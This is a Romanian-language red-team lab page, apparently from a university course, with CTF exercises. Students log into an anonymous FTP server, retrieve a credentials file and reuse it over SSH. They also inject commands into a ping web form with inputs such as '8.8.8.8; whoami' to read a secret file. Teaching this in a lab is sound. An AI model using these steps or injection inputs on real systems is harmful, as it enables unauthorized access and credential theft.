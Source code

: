 ## Red Team

**Red Team** este acea echipa de specialisti care trebuie sa gandeasca asemeni unui atacator.
Echipa este fie interna companiei in care activeaza, fie externa si activeaza la cererea companiei ce cumpara serviciile lor.
Scopul lor este sa emuleze atacuri, sa documenteze tot procesul si apoi sa propuna modalitati de imbunatatire a securitatii.

Este o modalitate **legala** pentru specialisti sa isi puna in practica notiunile si sa ajute in acelasi timp la securizarea diferitelor entitati.

O parte din activitatile pe care **Red Team** le poate efectua sunt:

- Securitate fizica
  - Incearca sa intre in cladire, sa fure dispozitive, sa pacaleasca angajati
- Dumpster Diving
  - Cauta in gunoi documente sau postit-uri cu parole
- Social Engineering
  - Phishing
  - Email-uri malitioase
- OSINT
  - Inventarierea sistemelor companiei
  - Scanarea sistemelor companiei
  - Verificare daca emailurile companiei sunt compromise
- Exploatare activa a sistemelor
  - Utilizarea exploit-urilor publice
  - Inspectie manuala a serviciilor expuse

### Activitati practice

Intrati in directorul `support/red-team/` si parcurgeti exercitiile de mai jos.

1. Accesati directorul `anonymous/remote/` si rulati comanda `make run`.
   Comanda va lansa in executie un container `Docker` aferent challenge-ului `anonymous`.

   Containerul expune doua porturi importante, si anume `10021` si `10022`.
   Portul `10021` expune serviciul `FTP` iar Portul `10022` expune serviciul `SSH`.
   Prima data vom interactiona cu serviciul `FTP`.

   Puteti interactiona cu serviciul `FTP` folosind comanda:

   ```
   $ ftp 0.0.0.0 10021
   ```

   Serverul are functionalitatea de `anonymous login` activata.
   Acest lucru este o practica gresita de aproape fiecare data si trebuie evitata.
   Se poate folosi doar in cazurile in care vrem sa expunem **in mod public** fisiere accesibile fara restrictii.

   Pentru mai multe detalii, accesati sectiunea `What is anonymous FTP` de la urmatorul link:

   - [How to Use Anonymous FTP](https://www.rfc-editor.org/rfc/rfc1635.html)

   Userul `anonymous` este un user limitat facut cu scopul de a oferi acces public unor anumite resurse.
   Informatia esentiala din resursa indicata este ca userul `anonymous` accepta orice parola.

   Drept urmare, putem folosi urmatoarea succesiune de actiuni in linie de comanda pentru a ne conecta la serverul ce ruleaza local:

   ```
   $ ftp 0.0.0.0 10021
   # introduceti manual: user: anonymous
   # introduceti manual: password: pass
   ```

   Rezultatul ar trebui sa fie:

   ```
   Connected to 0.0.0.0.
   220 (vsFTPd 3.0.3)
   Name (0.0.0.0:long): anonymous
   331 Please specify the password.
   Password: 
   230 Login successful.
   Remote system type is UNIX.
   Using binary mode to transfer files.
   ftp>
   ```

   Pentru a lista fisierele la care avem acces, folositi comanda `passive on` urmata de comanda `ls`.
   Rezultatul ar trebui sa fie:

   ```
   ftp> passive on
   Passive mode: on; fallback to active mode: off.
   ftp> ls
   229 Entering Extended Passive Mode (|||65455|)
   150 Here comes the directory listing.
   -rw-r--r--    1 0        0              27 Oct 31 14:21 credentials.txt
   226 Directory send OK.
   ftp>
   ```

   Observam ca serverul expune fisierul `credentials.txt`.
   Deseori programatorii uita ce fisiere lasa publice si se pot ajunge la situatii nedorite.

   Cum accesul la fisier este nerestrictionat, acesta poate fi downloadat folosind comanda `get credentials.txt`.
   Rezultatul ar trebui sa fie:

   ```
   ftp> get credentials.txt
   local: credentials.txt remote: credentials.txt
   229 Entering Extended Passive Mode (|||65437|)
   150 Opening BINARY mode data connection for credentials.txt (27 bytes).
   100% |******************************************************************************************************************************************|    27        0.42 KiB/s    00:00 ETA
   226 Transfer complete.
   27 bytes received in 00:00 (0.41 KiB/s) 
   ```

   Acum putem folosi comanda `exit` pentru a inchide conexiunea cu serverul `FTP`.
   Rezultatul ar trebui sa fie:

   ```
   ftp> exit
   221 Goodbye.
   ```

   Acum avem local fisierul `credentials.txt` al carui continut il putem expune cu urmatoarea comanda:

   ```
   $ cat credentials.txt
   ```

   Rezultatul ar trebui sa fie:

   ```
   $ cat credentials.txt
   ctf:anonymous-account-pass
   ```

   Cea mai des folosita sintaxa de precizare a credentialelor este de forma `username:parola`.
   Observam ca asta contine si fisierul nostru.

   Acum putem incerca sa folosim credentialele pentru a ne loga prin intermediul `SSH`.
   Vom face acest lucru cu userul `ctf` si parola `anonymous-account-pass`.
   Comanda folosita este:

   ```
   ssh ctf@0.0.0.0 -p 10022
   # introducem manual parola `anonymous-account-pass`
   # introducem manual `yes` pentru a continua conectarea atunci cand suntem intrebati
   ```

   Rezultatul ar trebui sa fie:

   ```
   $ ssh ctf@0.0.0.0 -p 10022
   The authenticity of host '[0.0.0.0]:10022 ([0.0.0.0]:10022)' can't be established.
   ED25519 key fingerprint is SHA256:r4/eDTkhYoYa8fgSaLMUsyQJAGsSaq+5rX2FGAB0CJc.
   This key is not known by any other names
   Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
   Warning: Permanently added '[0.0.0.0]:10022' (ED25519) to the list of known hosts.
   ctf@0.0.0.0's password: 
   Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-52-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

   This system has been minimized by removing packages and content that are
   not required on a system that users do not log into.

   To restore this content, you can run the 'unminimize' command.

   The programs included with the Ubuntu system are free software;
   the exact distribution terms for each program are described in the
   individual files in /usr/share/doc/*/copyright.

   Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
   applicable law.


   The programs included with the Ubuntu system are free software;
   the exact distribution terms for each program are described in the
   individual files in /usr/share/doc/*/copyright.

   Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
   applicable law.

   ctf@03ca22e3acdb:~$
   ```

   Listati continutul fisierului `secret` disponibil la calea `/home/ctf/secret`.

   Odata ce aveti un input care functioneaza corespunzator, incercati acelasi input si la adresa `141.85.224.104:10021`.

1. Accesati directorul `pingme/remote/` si rulati comanda `make run`.
   Comanda va lansa in executie un container `Docker` aferent challenge-ului `pingme`.
   O aplicatie web minimala este expusa pe portul `10002` al masinii locale.

   Observati ca aplicatia executa comanda `ping` catre o adresa IP data de utilizator.

   Putem presupune ca aplicatia executa intr-o linie de comanda pe server urmatoarea comanda:

   ```
   $ ping <input>
   ```

   Unde `<input>` este orice introduce utilizatorul in campul din pagina.
   In consecinta, un utilizator al aplicatiei **injecteaza comenzi** direct intr-o linie de comanda aflata pe un server la distanta.

   Cunoscand faptul ca operatorul `;` delimiteaza comenzi si permite rularea mai multor comenzi intr-o singura linie, putem folosi `8.8.8.8; whoami` ca si input.
   In acest fel, comenzile care s-ar executa pe server conform presupunerilor noastre sunt:

   ```
   $ ping 8.8.8.8; whoami
   ```

   Validati presupunerile anterioare contra aplicatiei expuse pe `0.0.0.0:10002`.

   Scopul este sa accesati fisierul `/secret` de pe server.
   Pentru a accesa acest fisier, folositi utilitarul `cat` si faptul ca aveti informatia ca fisierul cautat se afla sub calea `/secret`.

   Odata ce aveti un input care functioneaza corespunzator, incercati acelasi input si la adresa `141.85.224.104:10002`.

### Quiz

[Quiz](../quiz/red-team.md)
